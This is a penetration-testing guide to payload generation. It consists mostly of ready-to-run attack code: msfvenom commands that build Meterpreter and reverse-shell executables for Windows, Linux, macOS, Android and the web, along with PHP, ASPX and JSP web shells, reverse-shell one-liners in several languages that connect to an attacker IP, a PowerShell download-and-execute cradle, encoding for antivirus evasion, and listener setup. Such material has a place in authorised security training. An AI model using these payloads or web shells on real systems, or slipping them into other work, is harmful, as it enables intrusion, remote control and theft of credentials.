

# Payload Generation
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What Is a Payload?](#what-is-a-payload)
2. [Payload Types](#payload-types)
3. [Generating Payloads with msfvenom](#generating-payloads-with-msfvenom)
4. [Web Shells](#web-shells)
5. [One-Liner Reverse Shells](#one-liner-reverse-shells)
6. [Encoding and Obfuscation](#encoding-and-obfuscation)
7. [Setting Up Listeners](#setting-up-listeners)
8. [Payload Cheat Sheet](#payload-cheat-sheet)

---

## What Is a Payload?

In penetration testing, a **payload** is the component of an attack that performs the intended malicious action on the target system — most commonly establishing a shell connection, executing commands, or maintaining access. It is distinct from the **exploit**, which is the mechanism used to deliver and trigger the payload.

| Concept | Role |
|---------|------|
| **Exploit** | The vulnerability-triggering mechanism (e.g., buffer overflow, SQLi) |
| **Payload** | The code executed *after* exploitation (e.g., reverse shell, meterpreter) |
| **Shellcode** | Low-level machine code often used as a payload in memory exploits |
| **Stager** | A small payload that downloads and executes the full payload |

> **Note:** Understanding the difference between exploit and payload is crucial for report writing and for selecting the right tool. A single exploit (e.g., MS17-010) can be paired with many different payloads depending on the objective.

---

## Payload Types

### Reverse Shell

In a **reverse shell**, the target machine initiates a connection *back* to the attacker's listener. This bypasses common inbound firewall rules since the outbound connection originates from the target.

```
Attacker (LISTEN)  <──────────────────  Target (CONNECT)
     nc -lvnp 4444                      payload.exe
```

**Use when:** Target has restrictive inbound firewall but allows outbound connections (most common scenario).

### Bind Shell

In a **bind shell**, the payload binds a shell to a port on the target. The attacker then connects to that port.

```
Attacker (CONNECT)  ──────────────────>  Target (LISTEN :4444)
     nc 10.10.10.50 4444                 payload.exe
```

**Use when:** The attacker cannot receive inbound connections (e.g., behind NAT) but can reach the target's open ports.

> **Warning:** Bind shells leave a listening port on the target, which may be discovered by the target's defenders or other attackers. Prefer reverse shells in most engagements.

### Staged vs Stageless Payloads

| Feature | **Staged** | **Stageless** |
|---------|-----------|---------------|
| Size | Small (stager ~300 bytes) | Large (full payload embedded) |
| How it works | Stage 1 connects back and downloads Stage 2 | Entire payload runs immediately |
| Example | `windows/x64/meterpreter/reverse_tcp` | `windows/x64/meterpreter_reverse_tcp` |
| Requires handler | Yes (full Metasploit handler) | Minimal (can use netcat for some) |
| AV detection | Stage 2 downloaded over encrypted channel | Full payload on disk = easier to detect |
| Use case | File size limits, AV evasion | No internet, offline drops |

> **Note:** In msfvenom naming, a `/` separates stages (staged), while `_` creates a stageless payload: `meterpreter/reverse_tcp` vs `meterpreter_reverse_tcp`.

### Meterpreter

**Meterpreter** is Metasploit's advanced in-memory payload. It runs entirely in memory, never writes to disk (in default mode), communicates over an encrypted channel, and provides an extensive post-exploitation API.

Key capabilities:

```
meterpreter > sysinfo            # system information
meterpreter > getuid             # current user
meterpreter > getsystem          # attempt privilege escalation
meterpreter > hashdump           # dump NTLM hashes (requires SYSTEM)
meterpreter > upload /tmp/tool.exe C:\\Windows\\Temp\\tool.exe
meterpreter > download C:\\Windows\\System32\\SAM /tmp/SAM
meterpreter > migrate <PID>      # migrate into another process
meterpreter > shell              # drop to native OS shell
meterpreter > keyscan_start      # start keylogger
meterpreter > keyscan_dump       # dump captured keystrokes
meterpreter > screenshot         # capture desktop screenshot
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.10  # port forward
meterpreter > background         # background the session
```

---

## Generating Payloads with msfvenom

**msfvenom** combines msfpayload and msfencode into a single tool for generating and encoding payloads.

```bash
msfvenom [options]
  -p  <payload>    payload to use
  -f  <format>     output format (exe, elf, raw, python, c, ...)
  -e  <encoder>    encoder (x86/shikata_ga_nai, x64/xor_dynamic, ...)
  -i  <count>      encoding iterations
  -b  <bad_chars>  bad characters to avoid (e.g., '\x00\x0a')
  -o  <file>       output file (instead of stdout)
  LHOST            attacker IP
  LPORT            attacker listening port
```

### Windows Payloads

```bash
# Staged Meterpreter reverse TCP (x64)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f exe > payload.exe

# Stageless Meterpreter reverse TCP (x64)
msfvenom -p windows/x64/meterpreter_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f exe > payload_stageless.exe

# HTTPS Meterpreter (encrypted, bypasses some inspection)
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=10.10.10.1 LPORT=443 \
    -f exe > payload_https.exe

# PowerShell dropper
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f psh -o payload.ps1

# DLL payload (for DLL hijacking)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f dll > evil.dll

# Encoded payload
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x64/xor_dynamic -i 5 \
    -f exe > encoded.exe
```

### Linux Payloads

```bash
# Linux x64 reverse shell ELF
msfvenom -p linux/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf > payload.elf
chmod +x payload.elf

# Linux x64 Meterpreter
msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf > meter.elf

# Linux x86 (32-bit) reverse shell
msfvenom -p linux/x86/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf > payload32.elf

# Shared object (.so) for library injection
msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf-so > evil.so
```

### Web Payloads

```bash
# PHP Meterpreter (stageless)
msfvenom -p php/meterpreter_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw > shell.php
# Prepend <?php tag:
echo "<?php " | cat - shell.php > tmp && mv tmp shell.php

# PHP reverse shell (raw)
msfvenom -p php/reverse_php \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw > shell.php

# ASP reverse shell
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f asp > shell.asp

# ASPX reverse shell
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f aspx > shell.aspx

# JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw > shell.jsp

# WAR file (for Tomcat upload)
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f war > shell.war
```

### Listing and Searching Payloads

```bash
# List all payloads
msfvenom --list payloads

# Filter by platform
msfvenom --list payloads | grep linux
msfvenom --list payloads | grep windows
msfvenom --list payloads | grep php

# List output formats
msfvenom --list formats

# List encoders
msfvenom --list encoders

# Payload info
msfvenom -p windows/x64/meterpreter/reverse_tcp --list-options
```

---

## Web Shells

Web shells are scripts uploaded to a web server that allow command execution via HTTP requests. They persist on the server and provide access through the browser or curl.

> **Warning:** Web shells are trivially detectable by file integrity monitoring and AV scanners. Obfuscate, rename, and remove web shells immediately after use during a pentest engagement.

### PHP Web Shell

```php
<?php
// Minimal one-liner
echo shell_exec($_GET['cmd']);
?>

<!-- Usage: http://target.com/shell.php?cmd=whoami -->
```

**Feature-rich PHP web shell:**

```php
<?php
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    echo "<pre>";
    $output = shell_exec($cmd . ' 2>&1');
    echo htmlspecialchars($output);
    echo "</pre>";
}
?>
<form method="POST">
    <input type="text" name="cmd" style="width:400px">
    <input type="submit" value="Execute">
</form>
```

**PHP reverse shell trigger:**

```php
<?php
$sock = fsockopen("10.10.10.1", 4444);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

### ASPX Web Shell

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e) {
    if (Request["cmd"] != null) {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + Request["cmd"];
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        Response.Write("<pre>" + Server.HtmlEncode(p.StandardOutput.ReadToEnd()) + "</pre>");
        p.WaitForExit();
    }
}
</script>
<form>
    <input name="cmd" type="text" size="50" />
    <input type="submit" value="Run" />
</form>
```

### JSP Web Shell

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        InputStream is = p.getInputStream();
        int c;
        out.print("<pre>");
        while ((c = is.read()) != -1) {
            out.print((char) c);
        }
        out.print("</pre>");
    }
%>
<form><input name="cmd" type="text"><input type="submit"></form>
```

---

## One-Liner Reverse Shells

Replace `10.10.10.1` with your IP and `4444` with your port. Start a listener first: `nc -lvnp 4444`.

### Bash

```bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1

# Bash with exec (avoids /dev/tcp)
exec 5<>/dev/tcp/10.10.10.1/4444; cat <&5 | while read line; do $line 2>&5 >&5; done

# URL-safe version (for web exploitation):
bash%20-i%20>%26%20/dev/tcp/10.10.10.1/4444%200>%261
```

### Python 2

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.10.1",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"])'
```

### Python 3

```python
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.10.1",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'
```

### PowerShell

```powershell
# Basic reverse shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.1',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()"

# One-liner with base64 encoding to avoid quote issues:
$cmd = 'IEX(New-Object Net.WebClient).downloadString("http://10.10.10.1/shell.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$enc = [Convert]::ToBase64String($bytes)
powershell -enc $enc
```

### Netcat

```bash
# Traditional (with -e flag)
nc 10.10.10.1 4444 -e /bin/bash

# Without -e (OpenBSD netcat)
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.1 4444 >/tmp/f

# Windows netcat
nc.exe 10.10.10.1 4444 -e cmd.exe
```

### Perl

```perl
perl -e 'use Socket; $i="10.10.10.1"; $p=4444; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
```

### Ruby

```ruby
ruby -rsocket -e 'f=TCPSocket.open("10.10.10.1",4444).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Socat (fully interactive)

```bash
# On attacker (listener):
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On target:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.1:4444
```

### Upgrading to a Full TTY

After catching a basic reverse shell:

```bash
# Method 1: Python PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then: Ctrl+Z → stty raw -echo → fg → reset

# Method 2: script
script /dev/null -c bash

# Fix terminal size after PTY upgrade
stty rows 50 columns 200
export TERM=xterm-256color
```

---

## Encoding and Obfuscation

**Encoding** transforms shellcode to avoid bad characters or bypass simple signature-based AV. It does NOT provide strong AV evasion by itself — modern AVs unpack encoders.

```bash
# Single encoding pass — shikata_ga_nai (polymorphic XOR additive feedback encoder)
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x86/shikata_ga_nai \
    -f exe > encoded.exe

# Multiple iterations (more encoding layers)
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x86/shikata_ga_nai -i 10 \
    -f exe > encoded_10x.exe

# Avoid specific bad characters (null, newline, carriage return, space)
msfvenom -p linux/x86/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -b '\x00\x0a\x0d\x20' \
    -f elf > nobadchars.elf

# Check payload size
msfvenom -p linux/x86/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw | wc -c
```

> **Warning:** Encoding with shikata_ga_nai does not reliably bypass modern AV (Windows Defender, CrowdStrike, etc.). For real-world AV evasion, consider Donut, Cobalt Strike, custom loaders, or C# shellcode runners with AMSI bypass.

---

## Setting Up Listeners

### Metasploit multi/handler

```bash
msfconsole -q

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set ExitOnSession false   # keep handler alive
msf6 exploit(multi/handler) > exploit -j                # run as background job

# For HTTPS payload:
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 10.10.10.1
msf6 exploit(multi/handler) > set LPORT 443
```

### Netcat Listeners

```bash
# Basic listener
nc -lvnp 4444

# Save output to file
nc -lvnp 4444 | tee session.log

# Named pipe (persistent)
while true; do nc -lvnp 4444; done
```

### Socat Listener

```bash
# Basic
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

# With TLS (encrypted)
socat OPENSSL-LISTEN:4444,cert=server.pem,verify=0,reuseaddr,fork EXEC:/bin/bash,pty,stderr
```



---

## Payload Cheat Sheet

| OS | Format | Architecture | Command |
|----|--------|--------------|---------|
| Windows | EXE | x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > p.exe` |
| Windows | DLL | x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f dll > p.dll` |
| Windows | PowerShell | x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f psh > p.ps1` |
| Windows | VBA macro | x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f vba` |
| Linux | ELF | x64 | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f elf > p.elf` |
| Linux | ELF | x86 | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf > p.elf` |
| macOS | MACHO | x64 | `msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=IP LPORT=4444 -f macho > p` |
| PHP | Raw | Any | `msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=4444 -f raw > shell.php` |
| ASP | Raw | x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f asp > shell.asp` |
| ASPX | Raw | x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx > shell.aspx` |
| JSP | Raw | Any | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 -f raw > shell.jsp` |
| WAR | Archive | Any | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 -f war > shell.war` |
| Android | APK | ARM | `msfvenom -p android/meterpreter/reverse_tcp LHOST=IP LPORT=4444 R > app.apk` |

> **Note:** Always confirm the target architecture before generating payloads. Sending a 64-bit payload to a 32-bit process (or vice versa) will cause an immediate crash with no shell.
